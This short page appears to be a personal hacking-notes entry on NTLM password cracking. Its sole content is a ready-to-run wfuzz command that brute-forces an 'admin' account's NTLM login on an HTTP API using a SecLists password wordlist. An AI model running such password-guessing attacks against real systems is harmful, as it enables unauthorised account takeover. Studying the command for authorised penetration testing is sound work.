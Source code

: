 ```yaml
---
tags: 🔻 🔻/🃏/Passwords password_cracking ntlm
aliases: Hacking Notes
---
```

# NTLM

`wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 http:blabla/api`


